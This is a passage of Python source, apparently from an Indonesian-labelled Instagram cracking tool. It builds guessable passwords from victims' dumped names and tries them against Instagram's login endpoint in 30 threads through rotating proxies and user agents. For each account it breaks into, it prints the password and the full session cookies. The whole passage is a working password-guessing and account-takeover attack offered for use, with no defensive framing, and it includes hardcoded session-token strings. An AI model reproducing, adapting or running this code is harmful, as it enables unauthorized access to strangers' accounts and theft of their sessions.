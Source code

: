             print(f"{H}[{P}•{H}]{P} RESULT CP TERSIMPAN DI > Results/Cp.txt\n")
            with ThreadPoolExecutor(max_workers=30) as (___hayuk):
                for ___user in self.___file:
                    username, nama = ___user.split('<=>')
                    z = nama.split(' ')
                    if ___pilih in ['1','01']:
                        password = [nama.replace(' ',''), nama, z[0]+'123', z[0]+'1234', z[0]+'12345', z[0]+'321']
                    elif ___pilih in ['2','02']:
                        password = pwx
                    else:
                        password = [nama.replace(' ',''), nama, z[0]+'123', z[0]+'1234', z[0]+'12345']
                    ___hayuk.submit(self.__main__, self.___file, username, password)
            exit(f"\n{M}[{P}SELESAI{M}]{P}")
        except (ValueError):
            exit(f"{P}[{M}!{P}]{M} Crack is complete, there seems to be an error, please re-dump!")
    def __main__(self, user, uid, pwx):
        try:
            ___useragent = open('Data/ua.txt', 'r').read()
        except (IOError):
            ___useragent = ('Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/60.0.3112.116 Mobile Safari/537.36')
        try:
            for pw in pwx:
                pw = pw.lower()
                ___url = ('https://www.instagram.com/')
                ___login = ('https://www.instagram.com/accounts/login/ajax/')
                ___proxy = {'http': 'socks4://%s'%(random.choice(open("Data/proxy.txt","r").read().splitlines()))}
                ___csrf = requests.get(___url).cookies['csrftoken']
                ___data = {'username': uid,
                'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pw}',
                'queryParams': {},
                'optIntoOneTap': 'false'}
                ___head = {'User-Agent': random.choice(open("Data/ua.txt","r").read().splitlines()),
                'X-Requested-With': 'XMLHttpRequest',
                'Referer': 'https://www.instagram.com/accounts/login/',
                'x-csrftoken': ___csrf}
                with requests.Session() as ses:
                    response = ses.post(___login, data = ___data, headers = ___head, proxies = ___proxy).json()
                    if 'userId' in str(response):
                        coki = (f'mid={ses.cookies.get_dict()["mid"]};ig_did={ses.cookies.get_dict()["ig_did"]};ig_nrcb=1;shbid="9776\0541986587953\0541674289809:01f713acdf5c4921a542aff43695805d8e788f5580f4efaaf714ca7301ba34bb727790c9";shbts="1642753809\0541986587953\0541674289809:01f7227f6219fb0a036e3593c1531e9b9c9eb1db9dcbb7b4590ba36ffcbe62715eb10ada";csrftoken={ses.cookies.get_dict()["csrftoken"]};ds_user_id={ses.cookies.get_dict()["ds_user_id"]};sessionid={ses.cookies.get_dict()["sessionid"]};rur="EAG\0541986587953\0541674477820:01f724c03ff38f24662b1648dd2a933fc4a6e66b7a2bef2458d140bfb76ee86296f6cd8b"')
                        try:
                            ___roz = requests.get(f'https://www.instagram.com/{uid}/?__a=1', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()['graphql']['user']
                            follower = ___roz['edge_followed_by']['count']
                            following = ___roz['edge_follow']['count']
                        except (KeyError, IOError):
                            follower = ('-')
                            following = ('-')
                        except:pass
                        print(f"\r{B}[{P}✔{B}]{P} Status :{H} Tonye Success     ")
                        print(f"{B}[{P}>{B}]{P} Username :{H} {uid}")
                        print(f"{B}[{P}>{B}]{P} Password :{H} {pw}")
                        print(f"{B}[{P}>{B}]{P} Follower :{H} {follower}")
                        print(f"{B}[{P}>{B}]{P} Following :{H} {following}")
                        print(f"{B}[{P}>{B}]{P} Cookie :{H} {coki}\n")
                        self.ok.append(f"{uid}|{pw}")